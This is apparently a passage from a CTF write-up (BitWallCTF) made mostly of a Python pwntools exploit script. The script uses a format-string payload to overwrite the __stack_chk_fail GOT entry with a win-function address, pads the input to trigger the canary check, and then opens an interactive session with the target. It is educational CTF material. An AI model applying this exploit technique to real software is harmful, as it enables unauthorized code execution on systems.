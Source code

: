 ```python
        char_code = result[i]
        if ord('a') <= char_code <= ord('z'):
            reversed_char = char_code - pos_modifier
            if reversed_char < ord('a'):
                reversed_char += 26
            result[i] = reversed_char
        
        elif ord('0') <= char_code <= ord('9'):
            reversed_char = char_code - pos_modifier
            if reversed_char < ord('0'):
                reversed_char += 10
            result[i] = reversed_char
    return bytes(result)

injection=6
stack_chk_fail=elf.got.__stack_chk_fail
win=0x04015cd
print(f'[*] Found __stack_chk_fail GOT at :  {hex(stack_chk_fail)}')
print(f'[*] System function at :  {hex(win)}')
print(f'[*] Overwriting __stack_chk_fail with {hex(win)}')
payload=fmtstr_payload(injection,{
    stack_chk_fail:p64(win),
    })
payload=reverse_transform_bytes(payload) 
print(f'[*] Appending magic string')
payload+= b'funny'
print(f'[*] Adding excess bytes to overwrite the canary and trigger __stack_chk_fail')
payload+= b'b'*(110-len(payload))
print(len(payload))
target.sendline(payload)
target.recv()
target.interactive()
```

![](/images/BitWallCTF/bb13.png)


> Writeups for more challs will be added